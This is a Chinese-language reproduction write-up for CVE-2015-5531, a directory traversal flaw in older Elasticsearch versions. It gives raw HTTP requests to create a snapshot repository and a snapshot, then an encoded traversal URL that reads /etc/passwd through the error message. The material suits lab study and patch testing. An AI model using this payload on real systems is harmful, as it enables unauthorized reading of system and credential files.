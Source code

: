 （CVE-2015-5531）ElasticSearch 目录穿越漏洞
===========================================

一、漏洞简介
------------

elasticsearch
1.5.1及以前，无需任何配置即可触发该漏洞。之后的新版，配置文件elasticsearch.yml中必须存在`path.repo`，该配置值为一个目录，且该目录必须可写，等于限制了备份仓库的根位置。不配置该值，默认不启动这个功能。

二、漏洞影响
------------

ElasticSearch 1.6.1以下

三、复现过程
------------

### 1. 新建一个仓库

    PUT /_snapshot/test HTTP/1.1
    Host: your-ip:9200
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 108

    {
        "type": "fs",
        "settings": {
            "location": "/usr/share/elasticsearch/repo/test" 
        }
    }

![](./.resource/(CVE-2015-5531)ElasticSearch目录穿越漏洞/media/rId25.png)

### 2. 创建一个快照

    PUT /_snapshot/test2 HTTP/1.1
    Host: your-ip:9200
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 108

    {
        "type": "fs",
        "settings": {
            "location": "/usr/share/elasticsearch/repo/test/snapshot-backdata" 
        }
    }

![](./.resource/(CVE-2015-5531)ElasticSearch目录穿越漏洞/media/rId27.png)

### 3. 目录穿越读取任意文件

访问
`http://www.0-sec.org:9200/_snapshot/test/backdata%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd`

![](./.resource/(CVE-2015-5531)ElasticSearch目录穿越漏洞/media/rId29.png)

如上图，在错误信息中包含文件内容（编码后），对其进行解码即可获得文件：

![](./.resource/(CVE-2015-5531)ElasticSearch目录穿越漏洞/media/rId30.png)

参考链接
--------

> https://vulhub.org/\#/environments/elasticsearch/CVE-2015-5531/
